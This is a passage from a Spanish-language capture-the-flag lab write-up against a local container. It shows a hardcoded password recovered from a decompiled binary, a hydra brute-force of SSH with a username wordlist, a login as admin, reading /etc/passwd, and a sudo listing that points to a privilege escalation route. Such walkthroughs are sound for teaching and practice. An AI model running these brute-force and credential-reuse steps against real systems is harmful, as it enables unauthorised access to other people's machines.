 ```c
  putchar(10);
  return;
}
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Tenemos algo interesante al parecer tenemos una passoword valida:
```c
builtin_strncpy(local_28,"P@ssw0rd!#--025163fhusGNFE",0x1a);
```
### Ejecucion del Ataque
Ahora como no tenemos un indicio de ningun usuario valido para es sistema, y como en la web no existe ningun login, Sabiendo que esta expuesto el servicio **ssh** procedemos a realizar un ataque de fuerza bruta a ese servicio usarmos como parametro la contrasena obtenida
```bash
# Comandos para explotación
hydra -L /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt -p 'P@ssw0rd!#--025163fhusGNFE' -t 4 -f ssh://172.17.0.2
```

Tenemos credenciales validas:
```bash
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: admin   password: P@ssw0rd!#--025163fhusGNFE
```
### Intrusion
Procedemoa a ganar acceso a el objetivo por ssh
```bash
# Reverse shell o acceso inicial
ssh admin@172.17.0.2 # ( P@ssw0rd!#--025163fhusGNFE )
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
Enumerando usuarios del sistema, El objetivo es **root**
```bash
# Comandos clave ejecutados
cat /etc/passwd | grep "sh"

root:x:0:0:root:/root:/bin/bash
admin:x:1001:1001:admin,,,:/home/admin:/bin/bas
```
### Explotacion de Privilegios

###### Usuario `[ admin ]`:
Listando los permisos para este usaurio tenemos lo siguiente:
```bash
sudo -l

User admin may run the following commands on 2ecb8edce2fe:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```
